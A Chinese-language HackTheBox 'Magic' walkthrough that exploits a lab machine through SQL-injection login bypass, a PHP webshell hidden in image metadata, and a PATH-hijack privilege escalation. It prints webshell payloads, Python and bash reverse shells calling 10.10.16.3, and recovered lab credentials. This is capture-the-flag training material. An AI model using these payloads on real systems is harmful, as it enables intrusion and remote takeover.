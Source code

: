 ```yaml
---
title: HackTheBox-Magic
date: 2025-4-3 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```






## nmap

![image-20250402171145487](./Magic/image-20250402171145487.png)

## dirsearch

![image-20250402171526168](./Magic/image-20250402171526168.png)

## 80端口

简单sql注入绕过登录

![image-20250402174635214](./Magic/image-20250402174635214.png)

文件只允许上传图片，尝试过后不是前端验证，并且直接传一句话木马也会被识别

![image-20250402174705761](./Magic/image-20250402174705761.png)

![image-20250402174820732](./Magic/image-20250402174820732.png)

将命令注入正常图片中，生成一个图片马

```shell
exiftool -Comment='<?php system($_REQUEST['cmd']); ?>' sample.png

exiftool poc.jpg -documentname="<?php echo exec(\$_REQUEST['cmd']); ?>"
```

生成的图片马可以成功上传，但是想要让php代码解析就不能以图片格式上传，中间件是apache，可能存在apache解析漏洞，

回到index.php可以看到刚才上传的图片，将文件名改为`shell.php.png`

![image-20250402180902847](./Magic/image-20250402180902847.png)

index.php下有图片，可以查看图片的路径，替换为自己上传的文件名即可访问

![image-20250402175104411](./Magic/image-20250402175104411.png)

可以命令执行

![image-20250403102239859](./Magic/image-20250403102239859.png)

反弹shell

```
10.10.10.185/images/uploads/x.php.png?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.3",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![image-20250403111432899](./Magic/image-20250403111432899.png)

```
theseus:iamkingtheseus
```

/etc/passwd中也存在用户，但是使用改密码ssh无法连接

该靶机不存在mysql，但是存在mysqldump， mysqldump是对数据库进行备份的一个工具，利用该账号对数据库进行备份，就可以看到数据库中的内容

```
mysqldump -A -u theseus -p  > all_database.sql
```

![image-20250403113338213](./Magic/image-20250403113338213.png)

```
admin:Th3s3usW4sK1ng
```

数据库中有admin账号密码，上面bd.php5中的username是`theseus`，这个密码应该就是theseus的密码,利用改密码成功切换到theseus用户

![image-20250403140649661](./Magic/image-20250403140649661.png)

## 提权

查看有suid权限的文件，其中有一个/bin/sysinfo，运行后会打印系统信息

![image-20250403142053598](./Magic/image-20250403142053598.png)

查看该进程调用的系统库，调用了fdisk这个文件，提权思路就是写一个反弹shell的fdisk让sysinfo来以root权限调用

![image-20250403142255249](./Magic/image-20250403142255249.png)

```shell
theseus@magic:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.3/4444 0>&1' > fdisk

theseus@magic:/dev/shm$ chmod +x fdisk

theseus@magic:/dev/shm$ export PATH=$PATH:/dev/shm

theseus@magic:/dev/shm$ sysinfo
```

![image-20250403143522212](./Magic/image-20250403143522212.png)